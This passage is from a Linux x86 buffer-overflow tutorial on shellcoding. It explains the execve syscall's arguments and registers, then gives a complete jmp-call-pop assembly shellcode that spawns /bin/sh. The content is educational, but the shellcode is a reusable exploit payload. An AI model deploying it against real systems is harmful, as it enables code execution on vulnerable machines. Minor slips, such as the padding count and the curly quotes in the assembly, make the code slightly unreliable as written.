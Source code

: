 
![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Stack/Linux%20Buffer%20Overflows%20x86%20%E2%80%93%20Part%203%20(Shellcoding)/wall/11.png)



So in the manpages of the execve syscall it is clearly stated that, “The argv and envp arrays must each include a null pointer at the end of the array.” In our case envp array is already NULL, but the filename i.e the first index of argv pointer should also end with a NULL value. In the above assembly program we were defining separate variables for each argument of the syscall, but now we cant do that.

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

The execve syscall has three char pointer arguments. For the first argument we will have “/bin/shA”. We are appending A because we directly cant add a NULL value as it will hamper our shellcode, instead we will assign the index of A, a null value from the register. For the next char argument we will append four B’s as char is 4 bytes. Now the second argument is a pointer to the start of the address of the filename. Here we will assign the index of the starting B with the address of the starting memory address of filename. The third argument is the envp array which is a NULL pointer and we will append it with four C’s and then we will assign the index of the first C with a null value.

The representation of execve syscall arguments w.r.t registers will be like:

int execve(EBX, ECX, EDX); and the execve syscall number 11 will be loaded in the EAX register.

Below is the representation of the string which we will load along with the index in hex.


![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Stack/Linux%20Buffer%20Overflows%20x86%20%E2%80%93%20Part%203%20(Shellcoding)/wall/12.png)


Lets take a look into the final assembly program for our shellcode.

Refined assembly program for Shellcode:



```c
.text

.globl _start

_start:

jmp ShellcodeCall

Shellcode:

                popl %esi
		xorl %eax, %eax
		movb %al, 0x7(%esi)
		movl %esi, %ebx
		movl %esi, 0x8(%esi)
		leal 0x8(%esi), %ecx
		movl %eax, 0xc(%esi)
		leal 0xc(%esi), %edx
		movb $11, %al
		int $0x80

ShellcodeCall:

call Shellcode

Shell:

.ascii “/bin/shABBBBCCC”
```
